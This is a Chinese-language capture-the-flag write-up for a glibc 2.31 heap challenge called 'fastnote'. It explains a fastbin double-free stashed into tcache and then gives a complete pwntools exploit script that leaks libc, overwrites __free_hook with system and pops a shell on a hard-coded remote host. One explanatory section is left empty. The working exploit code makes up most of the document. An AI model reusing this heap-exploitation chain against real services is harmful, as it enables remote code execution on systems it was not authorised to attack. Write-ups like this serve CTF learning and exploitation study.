

# fastnote

*Fast note can't be edited*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

glibc 2.31，相比Elden Ring II少了edit函数，leak时脚本一样，
主要难点在构造tcache dup，构造完成以后打free hook即可

构造思路就是先填满tcache，然后做fastbin dup，接着分配chunk使fastbin被stash到tcache里，
再写地址并分配就可以达成任意地址写（这部分思路同old_fastnote）

## 为什么tcache里是3个chunk?



此时，fastbin头指向的chunk不再有效（错位了），故最后tcache里有且仅有3个chunk  
（个人想法，不一定正确，有正确的说法可以发discussion）

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./fastnote')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('106.14.57.14', 32414)
    libc = ELF('./libc-2.31.so')

    def addn(idx:int, size:int, content:bytes=b' ', hooked:bool=False):
        sh.sendlineafter(b'ice:', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Size', str(size).encode())
        if hooked:
            return
        sh.sendlineafter(b'Content', content)

    def deln(idx:int):
        sh.sendlineafter(b'ice:', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'ice:', b'2')
        sh.sendlineafter(b'Index: ', str(idx).encode())
        return sh.recvline()

    # leak libc addr (unsorted bin)
    addn(0, 0x80)
    addn(1, 0x80)
    addn(2, 0x80)
    addn(3, 0x80)
    addn(4, 0x80)
    addn(5, 0x80)
    addn(6, 0x80)
    addn(7, 0x80)
    deln(7)
    deln(6)
    deln(5)
    deln(4)
    deln(3)
    deln(2)
    deln(1)
    deln(0) # 1-7 in tcache, 0 in unsorted bin
    ret = show(0)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0')
    libcBase = mainArena - dumpArena - 0x60 # sub unsorted bin offset
    print(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    freeHook = libcBase + libc.symbols['__free_hook']
    systemAddr = libcBase + libc.symbols['system']

    # double free to alloc at freeHook
    addn(15, 0x28) # there is a 0x30-size chunk in tcache and causing double free detection
    addn(0, 0x18)  # so we need to alloc it to solve it
    addn(1, 0x18)
    addn(2, 0x18)
    addn(3, 0x18)
    addn(4, 0x18)
    addn(5, 0x18)
    addn(6, 0x18)
    addn(7, 0x18)
    addn(8, 0x18)
    deln(8)
    deln(7)
    deln(6)
    deln(5)
    deln(4)
    deln(3)
    deln(2) # 2-8 in tcache
    deln(1)
    deln(0)
    deln(1) # in fastbin: head -> 1 -> 0 -> 1
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18) # consume tcache
    addn(0, 0x18, p64(freeHook)) # thead -> 1 -> 0 -> freeHook
    addn(1, 0x18)
    addn(2, 0x18)
    addn(3, 0x18, p64(systemAddr)) # write systemAddr on freeHook
    addn(4, 0x48, b'/bin/sh\0')
    deln(4) # invoke shell

    sh.clean()
    sh.interactive()
```
